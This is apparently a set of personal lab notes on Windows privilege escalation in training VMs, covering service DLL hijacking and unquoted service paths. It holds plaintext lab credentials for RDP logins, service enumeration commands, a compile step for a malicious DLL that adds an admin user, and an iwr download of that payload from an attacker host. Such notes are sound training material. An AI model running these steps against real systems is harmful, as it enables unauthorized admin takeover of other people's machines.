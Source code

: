 
service DLL hijacking VM 1
`xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.212.220 /w:1200 /h:700`

enumerate running processes
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

get perms for users on the file
`icacls .\Documents\BetaServ.exe`

we find that we cannot replace the exe file, so try DLL replacement (no write perms)
```
search for C:\tools\Procmon -> Procmon64 run as backupuser
$env:path
```

download file that adds an admin user from kali
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
iwr -uri http://192.168.45.181/myDLL.dll -Outfile myDLL.dll
```

check users 
```
net user
Restart-Service BetaService
```

runas does not work, but GUI does
```
xfreerdp /u:dave2 /p:password! /v:192.168.212.220 /w:1200 /h:700
```

### Unquoted service paths VM 1
```
xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.212.220 /w:1200 /h:700
```

enumerate running and stopped services
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
```

more easily find unquoted paths (cmd)
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

check that we can start and stop
```
Start-Service GammaService
Stop-Service GammaService

C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
